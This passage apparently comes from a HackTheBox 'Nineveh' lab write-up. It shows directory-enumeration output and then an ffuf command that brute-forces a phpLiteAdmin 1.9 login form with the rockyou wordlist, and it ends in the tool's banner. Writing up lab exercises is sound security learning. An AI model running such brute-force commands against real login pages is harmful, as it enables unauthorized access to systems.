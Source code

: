 ```bash
===============================================================
/.hta (Status: 403)
/.hta.html (Status: 403)
/.hta.php (Status: 403)
/.hta.txt.xml (Status: 403)
/.htaccess (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt.xml (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt.xml (Status: 403)
/db (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/13 04:14:44 Finished
===============================================================
```

We see that there is a `/db` folder! Lets navigate to it.

![](/assets/images/nineveh9.png)

We see that the version of `phpliteAdmin.php` that is installed is `1.9`. I tried the default password `admin` but it didn't work. Lets try bruteforcing the password like before.

```bash
$ ffuf  -w /usr/share/wordlists/rockyou.txt -u https://nineveh.htb/db/index.php -X POST -d "password=FUZZ&remember=yes&login=Log+In&proc_login=true" -fr "Incorrect password." -H "Content-Type: application/x-www-form-urlencoded" -t 100           

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://nineveh.htb/db/index.php
```